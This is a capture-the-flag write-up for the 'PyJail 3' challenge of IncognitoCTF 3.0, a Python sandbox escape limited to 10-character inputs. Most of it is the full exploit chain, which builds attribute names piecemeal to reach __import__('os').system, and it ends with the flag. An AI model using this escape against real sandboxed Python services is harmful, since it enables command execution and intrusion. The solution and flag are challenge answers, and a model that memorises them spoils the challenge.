 # IncognitoCTF 3.0 - PyJail 3

#### about : 
- Type: jail 
- Level: meduim 
- Points : 100
- link : nc 142.93.209.130 9843

Same substitution problem, but we have also another problem: we are limited to input string of 10 character max.

It's a little bit annoying, but I split the exploit in several parts:

Final chain: 
`
g=getattr
f=flag
a='_._'
a+='cla'
a+='ss'
a+='_._'
x=g(f,a)
a='_._'
a+='bas'
a+='e'
a+='_._'
x=g(x,a)
a='_._'
a+='sub'
a+='cla'
a+='sse'
a+='s'
a+='_._'
x=g(x,a)
x=x()[196]
x=x()
a='_mo'
a+='dul'
a+='e'
x=g(x,a)
a='_._'
a+='bui'
a+='lti'
a+='ns'
a+='_._'
x=g(x,a)
a='_._'
a+='imp'
a+='ort'
a+='_._'
x=x[a]
x=x('os')
a='sys'
a+='tem'
x=g(x,a)
a='cat'
a+=' ja'
a+='il3'
x(a)
`

Flag: `ictf{C0ngr4t3_y0u_D1d_3m_4ll_457504214}`
